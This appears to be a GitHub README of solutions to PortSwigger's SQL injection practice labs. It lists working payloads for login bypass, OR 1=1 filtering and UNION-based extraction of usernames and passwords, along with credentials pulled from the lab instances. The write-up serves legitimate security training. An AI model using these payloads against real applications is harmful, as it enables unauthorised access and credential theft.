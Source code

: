 # SQL-injection
# Port Swigger SQL injection Labs Solutions <tag>

<h3>- Retrieving hidden data</h3>

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


1. *Solutions*
   1. `'+OR+1=1--` -> Required
   >The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   1. `)'OR+1=1-- `
   1. `""OR+1=1--`
   1. `)*OR+1=1--`
   
<h3>- Subverting application logic</h3>

[2.Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

1. *Solutions*

   1. username : `administrator'--` password : `''`
   1. username :`a'OR+1=1--`        password : `''`
  
<h3>- Retrieving data from other database tables</h3>

[3.Lab: SQL injection UNION attack, determining the number of columns returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

1. *Solutions*

  The first step of such an attack is to determine the number of columns that are being returned by the query.
  The server will responed for `'ORDER+BY+1--` `'ORDER+BY+2--` `'ORDER+BY+3--` that mean there are 3 columns in the database.
   
   1. `'+UNION+SELECT+NULL,NULL,NULL-- `
   1. `'UNION+SELECT+NULL,NULL,NULL--`
   1. `'union+select+null,null,null--`
   
[4.Lab: SQL injection UNION attack, finding a column containing text](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)

1. *Solutions*

  The server responed for `'+UNION+SELECT+NULL,'xyz',NULL--` that is mean the second column containing text.
  Make the database retrieve the string: 'IyLLPT' #Noted in the top of the screen,it can be diffrent in your case
   
   1. `'+UNION+SELECT+NULL,'IyLLPT',NULL-- `
   
   
[5.Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

1. *Solutions*

  By applying `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
  By applying `'+UNION+SELECT+'abc','xyz'--` we can say the columns have string values.
  To retrieve the contents of the users table we can use the following payload
   `'+UNION+SELECT+username,+password+FROM+users--`
  where `username` is the name of first column ,`password` is the name of second column and `users` is the name of the table in the database.
  
   __Example__
   
   Database name :   USERS 
   
   username | password
------------ | -------------
administrator | bp6w7q9023goawolzuyh
Content in the first column | Content in the second column

 Now to solve the challenge go to Response in Burp Suite from raw search for `administrator` and its password `bp6w7q9023goawolzuyh`

[6.Lab: SQL injection UNION attack, retrieving multiple values in a single column](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

1. *Solutions*

   By applying `'+UNION+SELECT+NULL,NULL--` we can say the database has tow columns.
   By applying `'+UNION+SELECT+NULL,'abc'--` we can ay the second column has string values.
   Now to retrieve data from only one column we can use the following payload
   `'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`
   
  `||'~'||` will join `username and password` like  `administrator~wet39rb7kc6kt99lq0o6`
   
 Now to solve the challenge go to Response in Burp Suite and get the username~password `administrator~wet39rb7kc6kt99lq0o6`
 
 
 
   
   

